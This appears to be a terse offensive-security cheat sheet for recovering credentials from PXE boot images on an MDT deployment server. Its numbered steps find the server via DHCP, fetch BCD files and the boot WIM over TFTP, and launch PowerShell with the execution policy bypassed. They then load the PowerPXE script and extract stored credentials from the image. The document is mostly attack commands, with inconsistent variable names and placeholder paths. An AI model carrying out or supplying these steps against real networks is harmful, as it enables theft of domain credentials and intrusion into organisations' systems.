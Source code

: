 ## Boot Image credentials recovery

#### 1) Request IP and PXE boot preconfigure details from DHCP ( MDT IP)

#### 2) Use TFTP to request each BCD file and enumerate the configuration for all of them.

#### 3) Use SSH connection

#### 4: tftp -i MDT_IP GET "\tmp\x64{30.....28}.bcd"

#### 5: powershell.exe -executionpolicy bypass

#### 6: Import-Module .\PowerPXE.ps1

#### 7: $bcdfILE = "conf.bcd"

#### 8: Get-WimFile -bcdFile $BCDFile

#### 9: tftp -i MDT_IP GET "PXE\BOOT\IMAGE\LOCATION" pxeboot.wim

#### 10: Get-FindCredentials -WimFile pxeboot.wim

#### 11: VOILA!
